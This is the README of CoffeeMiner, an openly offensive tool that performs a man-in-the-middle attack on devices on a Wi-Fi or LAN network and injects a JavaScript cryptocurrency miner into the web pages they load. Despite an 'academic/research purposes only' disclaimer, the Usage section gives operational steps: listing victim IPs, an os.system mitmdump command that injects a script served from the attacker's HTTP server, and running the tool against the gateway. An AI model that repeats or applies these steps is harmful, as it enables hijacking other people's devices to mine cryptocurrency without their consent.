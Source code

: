 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**

A blog post about this project can be read here: http://arnaucode.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html

![coffeeMiner](https://raw.githubusercontent.com/j0nk0/coffeeMiner/master/coffeeMiner-logo-small.png "coffeeMiner")

## Concept
- Performs a MITM attack to all selected victims
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Usage
- install.sh preqs
```
bash install.sh
```
- edit victims.txt with one IP per line 
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
or
```
os.system("/usr/local/bin/mitmdump -s 'injector.py' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```
ipgateway example: 192.168.2.254

![network](https://raw.githubusercontent.com/j0nk0/coffeeMiner/master/coffeeMiner-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/j0nk0/coffeeMiner/blob/master/virtualbox_scenario_instructions.md



![demo](https://raw.githubusercontent.com/j0nk0/coffeeMiner/master/coffeeMiner-demo-cutted.gif "demo")
